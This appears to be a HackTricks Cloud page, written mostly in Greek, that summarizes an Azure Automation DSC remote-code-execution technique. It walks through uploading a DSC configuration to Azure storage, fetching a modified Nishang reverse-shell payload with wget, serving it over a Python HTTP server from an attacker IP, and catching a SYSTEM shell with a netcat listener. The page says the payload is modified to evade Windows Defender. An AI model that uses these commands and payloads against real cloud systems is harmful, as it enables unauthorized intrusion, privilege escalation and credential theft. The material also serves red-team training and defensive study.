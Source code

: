 # Az - State Configuration RCE

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

**Check the complete post in:** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)

### Summary of Remote Server (C2) Infrastructure Preparation and Steps

#### Overview

Η διαδικασία περιλαμβάνει την εγκατάσταση μιας υποδομής απομακρυσμένου διακομιστή για τη φιλοξενία ενός τροποποιημένου payload `Invoke-PowerShellTcp.ps1` του Nishang, ονόματι `RevPS.ps1`, σχεδιασμένο να παρακάμπτει το Windows Defender. Το payload εξυπηρετείται από μια μηχανή Kali Linux με IP `40.84.7.74` χρησιμοποιώντας έναν απλό HTTP server Python. Η λειτουργία εκτελείται μέσω αρκετών βημάτων:

#### Step 1 — Create Files

* **Files Required:** Απαιτούνται δύο σενάρια PowerShell:
1. `reverse_shell_config.ps1`: Ένα αρχείο Desired State Configuration (DSC) που ανακτά και εκτελεί το payload. Είναι διαθέσιμο από το [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse_shell_config.ps1).
2. `push_reverse_shell_config.ps1`: Ένα σενάριο για τη δημοσίευση της διαμόρφωσης στο VM, διαθέσιμο στο [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push_reverse_shell_config.ps1).
* **Customization:** Οι μεταβλητές και οι παράμετροι σε αυτά τα αρχεία πρέπει να προσαρμοστούν στο συγκεκριμένο περιβάλλον του χρήστη, συμπεριλαμβανομένων των ονομάτων πόρων, των διαδρομών αρχείων και των αναγνωριστικών διακομιστή/payload.

#### Step 2 — Zip Configuration File

* Το `reverse_shell_config.ps1` συμπιέζεται σε ένα αρχείο `.zip`, καθιστώντας το έτοιμο για μεταφορά στον Azure Storage Account.
```powershell
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
#### Step 3 — Set Storage Context & Upload

* Το συμπιεσμένο αρχείο ρύθμισης μεταφορτώνεται σε ένα προκαθορισμένο δοχείο Azure Storage, azure-pentest, χρησιμοποιώντας την εντολή Set-AzStorageBlobContent του Azure.
```powershell
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
#### Βήμα 4 — Προετοιμασία του Kali Box

* Ο διακομιστής Kali κατεβάζει το φορτίο RevPS.ps1 από ένα αποθετήριο GitHub.
```bash
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
* Το σενάριο επεξεργάζεται για να καθορίσει το στοχευμένο Windows VM και την πόρτα για το reverse shell.

#### Βήμα 5 — Δημοσίευση Αρχείου Ρύθμισης

* Το αρχείο ρύθμισης εκτελείται, με αποτέλεσμα το σενάριο reverse-shell να αναπτυχθεί στην καθορισμένη τοποθεσία στο Windows VM.

#### Βήμα 6 — Φιλοξενία Payload και Ρύθμιση Listener

* Ένας Python SimpleHTTPServer ξεκινά για να φιλοξενήσει το payload, μαζί με έναν Netcat listener για να καταγράψει τις εισερχόμενες συνδέσεις.
```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
```
* Η προγραμματισμένη εργασία εκτελεί το payload, επιτυγχάνοντας δικαιώματα επιπέδου SYSTEM.

#### Συμπέρασμα

Η επιτυχής εκτέλεση αυτής της διαδικασίας ανοίγει πολλές δυνατότητες για περαιτέρω ενέργειες, όπως η εξαγωγή διαπιστευτηρίων ή η επέκταση της επίθεσης σε πολλές VMs. Ο οδηγός ενθαρρύνει τη συνεχιζόμενη μάθηση και τη δημιουργικότητα στον τομέα του Azure Automation DSC.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
